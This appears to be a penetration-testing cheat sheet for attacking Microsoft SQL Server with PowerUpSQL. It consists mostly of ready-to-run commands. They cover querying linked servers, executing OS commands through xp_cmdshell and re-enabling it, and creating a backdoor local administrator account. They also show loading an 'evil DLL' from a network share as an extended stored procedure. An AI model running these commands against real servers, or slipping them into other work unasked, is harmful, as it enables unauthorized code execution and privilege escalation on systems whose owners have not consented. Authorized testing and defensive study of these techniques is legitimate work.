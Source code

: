 ### Gather Entries from a Selected Linked Column


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```


## Command Execution via xp_cmdshell

> xp_cmdshell disabled by default since SQL Server 2005

```ps1
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command whoami

# Creates and adds local user backup to the local administrators group:
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net user backup Password1234 /add'" -Verbose
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net localgroup administrators backup /add" -Verbose
```

* Manually execute the SQL query
	```sql
	EXEC xp_cmdshell "net user";
	EXEC master..xp_cmdshell 'whoami'
	EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
	EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
	```
* If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)
	```sql
	EXEC sp_configure 'show advanced options',1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	```
* If the procedure was uninstalled
	```sql
	sp_addextendedproc 'xp_cmdshell','xplog70.dll'
	```


## Extended Stored Procedure

### Add the extended stored procedure and list extended stored procedures

```ps1
# Create evil DLL
Create-SQLFileXpDll -OutFile C:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

# Load the DLL and call xp_test
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "sp_addextendedproc 'xp_test', '\\10.10.0.1\temp\test.dll'"
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "EXEC xp_test"

# Listing existing
Get-SQLStoredProcedureXP -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

